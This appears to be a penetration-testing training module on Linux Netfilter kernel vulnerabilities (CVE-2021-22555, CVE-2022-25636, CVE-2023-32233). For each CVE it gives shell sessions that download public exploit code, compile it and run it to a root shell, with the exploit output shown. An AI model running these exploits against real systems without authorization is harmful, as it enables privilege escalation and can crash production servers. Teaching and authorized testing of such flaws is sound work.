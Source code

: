 
<h1>Netfilter</h1>
<hr/>
<p><code>Netfilter</code> is a Linux kernel module that provides, among other things, packet filtering, network address translation, and other tools relevant to firewalls. It controls and regulates network traffic by manipulating individual packets based on their characteristics and rules. <code>Netfilter</code> is also called the software layer in the Linux kernel. When network packets are received and sent, it initiates the execution of other modules such as packet filters. These modules can then intercept and manipulate packets. This includes the programs like <code>iptables</code> and <code>arptables</code>, which serve as action mechanisms of the <code>Netfilter</code> hook system of the IPv4 and IPv6 protocol stack.</p>
<p>This kernel module has three main functions:</p>
<ol>
<li>Packet defragmentation</li>
<li>Connection tracking</li>
<li>Network address translation (NAT)</li>
</ol>
<p>When the module is activated, all IP packets are checked by the <code>Netfilter</code> before they are forwarded to the target application of the own or remote system. In 2021 (<a href="https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555">CVE-2021-22555</a>), 2022 (<a href="https://github.com/pqlx/CVE-2022-1015">CVE-2022-1015</a>), and also in 2023 (<a href="https://github.com/Liuk3r/CVE-2023-32233">CVE-2023-32233</a>), several vulnerabilities were found that could lead to privilege escalation.</p>
<p>Many companies have preconfigured Linux distributions adapted to their software applications or vice versa. This gives the developers and administrators, metaphorically speaking, a "dynamic basis" that is difficult to replace. This would require either adapting the system to the software application or adapting the application to the newer system. Depending on the size and complexity of the application, this can take a great deal of time and effort. This is often why so many companies run older and not updated Linux distributions in production.</p>
<p>Even if the company uses virtual machines or containers like Docker, these are built on a specific kernel. The idea of isolating the software application from the existing host system is a good step, but there are many ways to break out of such a container.</p>
<h4>CVE-2021-22555</h4>
<p>Vulnerable kernel versions: 2.6 - 5.11</p>
<pre><code class="language-shell-session">cry0l1t3@ubuntu:~$ uname -r

5.10.5-051005-generic
</code></pre>
<pre><code class="language-shell-session">cry0l1t3@ubuntu:~$ wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
cry0l1t3@ubuntu:~$ gcc -m32 -static exploit.c -o exploit
cry0l1t3@ubuntu:~$ ./exploit

[+] Linux Privilege Escalation by theflow@ - 2021

[+] STAGE 0: Initialization
[*] Setting up namespace sandbox...
[*] Initializing sockets and message queues...

[+] STAGE 1: Memory corruption
[*] Spraying primary messages...
[*] Spraying secondary messages...
[*] Creating holes in primary messages...
[*] Triggering out-of-bounds write...
[*] Searching for corrupted primary message...
[+] fake_idx: fff
[+] real_idx: fdf

...SNIP...

root@ubuntu:/home/cry0l1t3# id

uid=0(root) gid=0(root) groups=0(root)
</code></pre>
<h4>CVE-2022-25636</h4>
<p>A recent vulnerability is <a href="https://www.cvedetails.com/cve/CVE-2022-25636/">CVE-2022-25636</a> and affects Linux kernel 5.4 through 5.6.10. This is <code>net/netfilter/nf_dup_netdev.c</code>, which can grant root privileges to local users due to heap out-of-bounds write. <code>Nick Gregory</code> wrote a very detailed <a href="https://nickgregory.me/post/2022/03/12/cve-2022-25636/">article</a> about how he discovered this vulnerability.</p>
<pre><code class="language-shell-session">cry0l1t3@ubuntu:~$ uname -r

5.13.0-051300-generic
</code></pre>
<p>However, we need to be careful with this exploit as it can corrupt the kernel, and a reboot will be required to reaccess the server.</p>
<pre><code class="language-shell-session">cry0l1t3@ubuntu:~$ git clone https://github.com/Bonfee/CVE-2022-25636.git
cry0l1t3@ubuntu:~$ cd CVE-2022-25636
cry0l1t3@ubuntu:~$ make
cry0l1t3@ubuntu:~$ ./exploit

[*] STEP 1: Leak child and parent net_device
[+] parent net_device ptr: 0xffff991285dc0000
[+] child  net_device ptr: 0xffff99128e5a9000

[*] STEP 2: Spray kmalloc-192, overwrite msg_msg.security ptr and free net_device
[+] net_device struct freed

[*] STEP 3: Spray kmalloc-4k using setxattr + FUSE to realloc net_device
[+] obtained net_device struct

[*] STEP 4: Leak kaslr
[*] kaslr leak: 0xffffffff823093c0
[*] kaslr base: 0xffffffff80ffefa0

[*] STEP 5: Release setxattrs, free net_device, and realloc it again
[+] obtained net_device struct

[*] STEP 6: rop :)

# id

uid=0(root) gid=0(root) groups=0(root)
</code></pre>
<h4>CVE-2023-32233</h4>
<p>This vulnerability exploits the so called <code>anonymous sets</code> in <code>nf_tables</code> by using the <code>Use-After-Free</code> vulnerability in the Linux Kernel up to version <code>6.3.1</code>. These <code>nf_tables</code> are temporary workspaces for processing batch requests and once the processing is done, these anonymous sets are supposed to be cleared out (<code>Use-After-Free</code>) so they cannot be used anymore. Due to a mistake in the code, these anonymous sets are not being handled properly and can still be accessed and modified by the program.</p>
<p>The exploitation is done by manipulating the system to use the <code>cleared out</code> anonymous sets to interact with the kernel's memory. By doing so, we can potentially gain <code>root</code> privileges.</p>
<h4>Proof-Of-Concept</h4>
<pre><code class="language-shell-session">cry0l1t3@ubuntu:~$ git clone https://github.com/Liuk3r/CVE-2023-32233
cry0l1t3@ubuntu:~$ cd CVE-2023-32233
cry0l1t3@ubuntu:~/CVE-2023-32233$ gcc -Wall -o exploit exploit.c -lmnl -lnftnl
</code></pre>
<h4>Exploitation</h4>
<pre><code class="language-shell-session">cry0l1t3@ubuntu:~/CVE-2023-32233$ ./exploit

[*] Netfilter UAF exploit

Using profile:
========
1                   race_set_slab                   # {0,1}
1572                race_set_elem_count             # k
4000                initial_sleep                   # ms
100                 race_lead_sleep                 # ms
600                 race_lag_sleep                  # ms
100                 reuse_sleep                     # ms
39d240              free_percpu                     # hex
2a8b900             modprobe_path                   # hex
23700               nft_counter_destroy             # hex
347a0               nft_counter_ops                 # hex
a                   nft_counter_destroy_call_offset # hex
ffffffff            nft_counter_destroy_call_mask   # hex
e8e58948            nft_counter_destroy_call_check  # hex
========

[*] Checking for available CPUs...
[*] sched_getaffinity() =&gt; 0 2
[*] Reserved CPU 0 for PWN Worker
[*] Started cpu_spinning_loop() on CPU 1
[*] Started cpu_spinning_loop() on CPU 2
[*] Started cpu_spinning_loop() on CPU 3
[*] Creating "/tmp/modprobe"...
[*] Creating "/tmp/trigger"...
[*] Updating setgroups...
[*] Updating uid_map...
[*] Updating gid_map...
[*] Signaling PWN Worker...
[*] Waiting for PWN Worker...

...SNIP...

[*] You've Got ROOT:-)

# id

uid=0(root) gid=0(root) groups=0(root)
</code></pre>
<p>Please keep in mind that these exploits can be very unstable and can break the system.</p>
